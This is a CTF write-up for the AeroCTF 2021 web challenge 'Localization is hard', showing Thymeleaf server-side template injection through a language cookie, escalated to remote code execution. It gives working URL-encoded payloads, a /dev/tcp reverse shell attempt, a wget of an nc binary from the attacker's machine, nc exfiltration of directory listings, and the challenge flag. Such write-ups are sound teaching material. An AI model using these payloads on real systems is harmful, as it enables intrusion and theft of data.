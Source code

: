 +++
title = "[AeroCTF 2021 - web] Localization is hard"
tags = ["ctf", "AeroCTF 2021", "web", "java", "ssti", "Thymeleaf", "2021", "x."]
date = "2021-03-02"
+++

# [Localization is hard - web] AeroCTF


## 0x00

To solve this challenge we had to exploit a **[SSTI](https://portswigger.net/research/server-side-template-injection)** on **Thymeleaf** and lead that into a **Remote Code Execution**

## 0x01

#### Discovering the vulnerability

The challenge description talk about a Coffee who made for CTFers and in **English and in Russian**.

![CTF description](https://i.imgur.com/88wE70b.png) 

Btw , the challenge description tell us that the flag should be located at `/` on the file system, this maybe mean that we have to get an access to the machine to read the flag.
 
By inspecting the website we can read that the language can be choosed by clicking on a button. 
`(onclick` event), then the `set_language(lang)` function will be executed

*(quick look into the /js/templatemo-script.js)*

```javascript

function set_language(lang) {
  document.cookie = "lang=" + lang;
  window.location.reload();
}

```

the function set a cookie `lang` with `en` or `ru`

*trying a path traversal   "../flag/"*

```bash

curl http://151.236.114.211:7878/ --cookie "lang=en"

```

![response](https://i.imgur.com/wwxbzN0.png)
"**org.thymeleaf.exceptions.TemplateInputException**" by googling this error message, we find : [**thymeleaf**](https://www.thymeleaf.org/) .
This a modern server-side Java template engine for both web and standalone environments.

## 0x02
#### Find out about this Template-Engine
Assuming **Thymeleaf** as a template engine , we can think about a ***Server-side template injection***.
So searching about SSTI on this template engine
**>>** [https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/](https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/)
**>>** [https://www.veracode.com/blog/secure-development/spring-view-manipulation-vulnerability](https://www.veracode.com/blog/secure-development/spring-view-manipulation-vulnerability)
**>>** [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#thymeleaf-java](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#thymeleaf-java)

#### Exploitation

To attempt an SSTI in Thymeleaf, we first must understand expressions that appear in Thymeleaf attributes. Thymeleaf expressions can have the following types:

`${...}`: Variable expressions – in practice, these are OGNL or Spring EL expressions.
`*{...}`: Selection expressions – similar to variable expressions but used for specific purposes.
`#{...}`: Message (i18n) expressions – used for internationalization.
`@{...}`: Link (URL) expressions – used to set correct URLs/paths in the application.
`~{...}`: Fragment expressions – they let you reuse parts of templates.


 - `__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}__::.x`
 - `__${T(java.lang.Runtime).getRuntime().exec("whoami")}__::.x`
 
According [Acunetix](https://www.acunetix.com/). However, as we mentioned before, expressions only work in special Thymeleaf attributes. If it’s necessary to use an expression in a different location in the template, Thymeleaf supports _expression inlining_. To use this feature, you must put an expression within `[[...]]` or `[(...)]` (select one or the other depending on whether you need to escape special symbols). Therefore, a simple SSTI detection payload for Thymeleaf would be `[[${7*7}]]`.

So let's try on the site cookie to check the **RCE**
``__%24%7Bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22id%22).getInputStream()).next()%7D__%3A%3A.x``

![response 500](https://i.imgur.com/4ywvJ38.png)
We don't have the **stdout** in the response but we always have a 500 response.

It's maybe blind based, so let's try to sleep.
![sleep server](https://i.imgur.com/W8J1WHE.png)
It's work !

So now, we understand that :
when we got `org.thymeleaf.exceptions.TemplateInputException` this mean that the command is executed, but when we send a bad command or a non-urlencoded payload we got ``java.lang.IllegalArgumentException``

## 0x03
####  Connect to our machine

We tried firstly to do a simple tcp reverse shell with 
```bash

__%24%7Bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22%2Fbin%2Fsh%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fmyip%2F1337%200%3E%261%22).getInputStream()).next()%7D__%3A%3A.x

```

But nothing...
So let's try to wget a nc binary on our machine 

`__%24%7Bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22wget%20ip/nc%22).getInputStream()).next()%7D__%3A%3A.x`

and now try to bind shell our machine..
![receive connexion](https://i.imgur.com/aburDce.png)
Bingo ! We got a connexion from the machine, but nothing in the output.

#### Getting a shell environment from Runtime.exec

According [code white](https://codewhitesec.blogspot.com/2015/03/sh-or-getting-shell-environment-from.html)
The command passed to `Runtime.exec` is not executed by a shell. Instead, if you dig down though the Java source code, you'll end up in the [_UNIX process class](http://hg.openjdk.java.net/jdk7/jdk7/jdk/file/tip/src/solaris/classes/java/lang/UNIXProcess.java.linux), which reveals that calling `Runtime.exec` results in a `fork` and `exec` call on Unix platforms.

Exemple:
 ```java

import java.io.*;

public class Exec {

		public static void main(String[] args) throws IOException {
				Process p = Runtime.getRuntime().exec(args[0]);
				byte[] b = new byte[1];

				while (p.getErrorStream().read(b) > 0)
					System.out.write(b);

				while (p.getInputStream().read(b) > 0)
					System.out.write(b);
		}

}

```
We call this class as shown below with single quotes around the command line to ensure that our shell passes the command line argument to Java as is:

$ java Exec 'command arg1 arg2 ...'
So let's try to use this to read our flag :
`__%24%7Bnew%20java.util.Scanner%28T%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22sh%20-c%20%24%40%7Csh%20.%20echo%20ls%20-la%20%2F%7C%20nc%20ip%201337%22%29.getInputStream%28%29%29.next%28%29%7D__%3A%3A.x`

**url decoded payload**  ``__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("sh -c $@|sh . echo ls -la /| nc ip 1337").getInputStream()).next()}__::.x``

![ls -la](https://i.imgur.com/IGqCDZC.png)

Now cat the flag :
``__%24%7Bnew%20java.util.Scanner%28T%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22sh%20-c%20%24%40%7Csh%20.%20cat%20%2Ftry_find_me.txt%7C%20nc%20ip%201337%22%29.getInputStream%28%29%29.next%28%29%7D__%3A%3A.x``



![flag](https://i.imgur.com/IxSBfpt.png)

**Aero{j4va_1s_better_th4n_engl1sh}**

Cheers, @0x22sh =) 
